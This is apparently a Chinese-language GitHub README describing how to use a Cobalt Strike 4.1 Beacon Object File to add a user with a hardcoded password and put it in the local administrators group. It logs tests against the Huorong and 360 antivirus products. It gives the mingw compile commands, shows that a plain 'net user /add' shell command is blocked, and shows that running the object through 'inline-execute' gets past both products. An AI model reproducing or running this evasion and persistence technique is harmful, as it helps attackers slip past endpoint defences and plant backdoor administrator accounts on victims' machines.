 ### 0x00 基本原理
利用CS4.1中新出的BOF功能提供的API实现添加用户，并将用户添加到管理员组

### 0x01 测试火绒过程记录
受害虚拟机：Windows 2008 R2安装火绒  
kali下执行如下命令安装需要的库
```
sudo apt install mingw-w64-tools mingw-w64-common g++-mingw-w64 gcc-mingw-w64 upx-ucl osslsigncode
```
安装完之后，执行如下命令分别生成32位和64位的对象文件
```
x86_64-w64-mingw32-gcc -c bof-net-user.c -o bof-net-user-x64.o
i686-w64-mingw32-gcc -c bof-net-user.c -o bof-net-user-x86.o
编译后的对象文件包含用户名密码：test123/Test@#123
这里要注意：32位进程载入32位对象，64位进程载入64位对象
```
CS上线后，直接执行
```
shell net user test test /add
```
会被拦截，如下图  
![image](./pic/0.png)
通过内联执行的方式执行对象文件bof-net-user-x86.o
```
inline-execute /home/kali/Desktop/bof-net-user-x86.o
```
等待一会，反馈成功添加用户，如下图  
![image](./pic/1.png)  
回到受害机上查看，成功添加用户，如下图  
![image](./pic/2.png)  

### 0x01 测试360安全卫士过程记录
受害虚拟机：Windows 2008 R2安装360安全卫士  
同样CS上线后，直接执行
```
shell net user test test /add
```
会被拦截，如下图  
![image](./pic/3.png)  
通过内联执行的方式执行对象文件bof-net-user-x86.o
```
inline-execute /home/kali/Desktop/bof-net-user-x86.o
```
等待一会，反馈成功添加用户，如下图  
![image](./pic/4.png)  
回到受害机上查看，成功添加用户，如下图  
![image](./pic/5.png)  
